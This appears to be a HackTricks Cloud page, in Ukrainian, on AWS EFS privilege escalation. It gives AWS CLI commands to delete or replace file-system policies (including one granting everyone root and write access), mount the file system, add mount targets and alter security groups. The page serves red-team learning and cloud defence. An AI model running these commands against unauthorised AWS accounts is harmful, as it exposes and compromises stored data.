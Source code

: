 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Більше **інформації про EFS** в:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Пам'ятайте, що для монтування EFS вам потрібно бути в підмережі, де EFS відкритий, і мати доступ до нього (групи безпеки). Якщо це відбувається, за замовчуванням ви завжди зможете його змонтувати, однак, якщо він захищений політиками IAM, вам потрібно мати додаткові дозволи, згадані тут, щоб отримати доступ.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

З будь-яким з цих дозволів зловмисник може **змінити політику файлової системи**, щоб **надати вам доступ** до неї, або просто **видалити її**, щоб **надано стандартний доступ**.

Щоб видалити політику:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Щоб змінити це:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

З цією дозволом зловмисник зможе **підключити EFS**. Якщо дозвіл на запис за замовчуванням не надано всім, хто може підключити EFS, він матиме лише **доступ для читання**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Додаткові дозволи `elasticfilesystem:ClientRootAccess` та `elasticfilesystem:ClientWrite` можуть бути використані для **запису** всередині файлової системи після її монтування та для **доступу** до цієї файлової системи **як root**.

**Потенційний вплив:** Непряме підвищення привілеїв шляхом знаходження чутливої інформації у файловій системі.

### `elasticfilesystem:CreateMountTarget`

Якщо ви, атакуючий, знаходитесь у **підмережі**, де **немає цільового монту** EFS. Ви можете просто **створити один у своїй підмережі** з цим привілеєм:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Потенційний вплив:** Непряме підвищення привілеїв шляхом знаходження чутливої інформації у файловій системі.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

У сценарії, де зловмисник виявляє, що EFS має точку монтування у його підмережі, але **жодна група безпеки не дозволяє трафік**, він може просто **змінити це, змінивши вибрані групи безпеки**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Потенційний вплив:** Непряме підвищення привілеїв шляхом виявлення чутливої інформації у файловій системі.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
